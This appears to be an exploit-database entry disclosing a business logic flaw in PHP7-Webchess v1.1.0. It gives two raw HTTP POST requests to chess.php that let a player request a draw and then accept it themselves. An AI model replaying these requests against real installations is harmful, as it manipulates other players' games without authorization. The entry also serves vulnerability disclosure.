 # Exploit Title: PHP7-Webchess v1.1.0 - Business Logic Error
## Date: 2/1/2024
## Vendor Homepage: https://github.com/halojoy/PHP7-Webchess
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP7-Webchess
## Version: v1.1.0
## Exploit Description:
## PHP7-Webchess v1.1.0 suffers from BLE - Business Logic Error Vulnerability allowing attackers to first post a requestDraw and then agree with this request.

## ---------------------------------POC-----------------------------
```
POST /chess.php HTTP/1.1
...

requestUndo=no&requestDraw=yes&resign=no&fromRow=&fromCol=&toRow=&toCol=&isInCheck=false&isCheckMate=false
```
```
POST /chess.php HTTP/1.1
...

drawResponse=yes&isDrawResponseDone=yes&requestUndo=no&requestDraw=no&resign=no&fromRow=&fromCol=&toRow=&toCol=&isInCheck=false&isCheckMate=false
```